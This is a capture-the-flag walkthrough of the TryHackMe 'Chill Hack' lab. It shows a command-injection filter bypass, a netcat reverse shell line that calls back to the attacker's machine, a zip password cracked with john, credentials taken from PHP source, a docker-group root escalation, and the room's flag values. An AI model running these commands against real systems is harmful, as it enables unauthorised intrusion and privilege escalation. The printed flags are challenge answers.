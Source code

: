 Room: https://tryhackme.com/room/chillhack
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xx.xxx
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
FTP service allows us to connect Anonymously.  
However, there's no useful information that gives us two possible usernames.  

**gobuster** dir -u http://xx.xx.xx.xxx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100
```
/images               (Status: 301) [Size: 313] [--> http://xx.xx.xx.xxx/images/]
/css                  (Status: 301) [Size: 310] [--> http://xx.xx.xx.xxx/css/]   
/js                   (Status: 301) [Size: 309] [--> http://xx.xx.xx.xxx/js/]    
/fonts                (Status: 301) [Size: 312] [--> http://xx.xx.xx.xxx/fonts/] 
/secret               (Status: 301) [Size: 313] [--> http://xx.xx.xx.xxx/secret/]
```

Navigating to **/secret** directory of the page, we find out that the input is filtered.  
We can easily bypass that by using **echo $(cmd)** to run commands.  

We can use this to create a reverse shell to our attacking machine.  
**echo** $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc xx.x.x.xxx 8888 >/tmp/f)

By navigating to **/var/www/files** we can find two php files.  
Inside the **hacker.php** we find some hints.
```
	<img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
	<h1 style="background-color:red;">You have reached this far. </h2>
	<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
```

At some point, that image should appear along with the text above.  
This makes me think it has something to do with the image shown.  

We can find the photo at **/var/www/files/images/**.  
I started a python http server and downloaded the archive to my attacking machine.  

**zip2john** backup.zip > hash
**john** hash --wordlist=/usr/share/wordlists/rockyou.txt => pass1word  

Extracting the zip, we are given a **source_code.php** file.  
```
<html>
<head>
	Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
			Email: <input type="email" name="email" placeholder="email"><br><br>
			Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
		</form>
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
		{ 
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>
```

We can see that is the source code of a poorly coded login portal.  
It gives us the user **Anurodh** and the password **!d0ntKn0wmYp@ssw0rd**.  

**su anurodh**, using the password found earlier.  
This allows us to change the user from **www-data** to **anurodh** on the target machine.  

**anurodh@ubuntu:/home$** id
```
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

Giving the fact that we're in the docker group, the machine is already rooted.  
On the [GTFObins](https://gtfobins.github.io/gtfobins/docker/#sudo) we can find the required command(s) to escalate privileges.   

> docker run -v /:/mnt --rm -it alpine chroot /mnt sh

After some seconds, we're under the root account.

**First flag is at /home/apaar/ and is {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}** **[1]**.   
**Second and final flag is at /root/proof.txt and is {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}** **[2]**.  
